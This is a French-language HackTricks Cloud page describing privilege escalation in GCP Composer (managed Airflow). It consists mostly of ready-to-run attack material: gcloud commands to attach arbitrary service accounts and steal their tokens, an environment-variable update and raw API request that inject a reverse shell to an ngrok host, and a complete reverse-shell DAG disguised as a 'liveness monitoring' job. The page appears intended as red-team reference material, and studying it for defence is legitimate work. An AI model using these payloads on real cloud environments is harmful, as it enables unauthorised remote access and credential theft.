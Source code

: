 # GCP - Composer Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## composer

Plus d'infos dans :

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

Il est possible de **lier n'importe quel compte de service** à l'environnement composer nouvellement créé avec cette permission. Plus tard, vous pourriez exécuter du code à l'intérieur de composer pour voler le jeton du compte de service.
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
Plus d'infos sur l'exploitation [**ici**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

Il est possible de mettre à jour l'environnement composer, par exemple, en modifiant les variables d'environnement :

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: Obtenir RCE en ajoutant de nouveaux paquets pypi à l'environnement

### Télécharger les Dags

Vérifiez le code source des dags en cours d'exécution :

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### Importer des Dags

Ajoutez le code DAG python dans un fichier et importez-le en exécutant :

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```
{% endcode %}

DAG de shell inversé :

{% code title="reverse_shell.py" %}
```python
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
'start_date': airflow.utils.dates.days_ago(0),
'retries': 1,
'retry_delay': timedelta(minutes=5)
}

dag = DAG(
'reverse_shell',
default_args=default_args,
description='liveness monitoring dag',
schedule_interval='*/10 * * * *',
max_active_runs=1,
catchup=False,
dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
task_id='bash_rev',
bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
dag=dag,
depends_on_past=False,
priority_weight=2**31 - 1,
do_xcom_push=False)
```
{% endcode %}

### Accès en écriture au bucket Composer

Tous les composants d'un environnement composer (DAGs, plugins et données) sont stockés à l'intérieur d'un bucket GCP. Si l'attaquant a des permissions de lecture et d'écriture sur celui-ci, il pourrait surveiller le bucket et **chaque fois qu'un DAG est créé ou mis à jour, soumettre une version compromise** afin que l'environnement composer récupère la version compromise depuis le stockage.

Obtenez plus d'informations sur cette attaque dans :

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

### Importer des plugins

TODO: Vérifier ce qui est possible de compromettre en téléchargeant des plugins

### Importer des données

TODO: Vérifier ce qui est possible de compromettre en téléchargeant des données

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
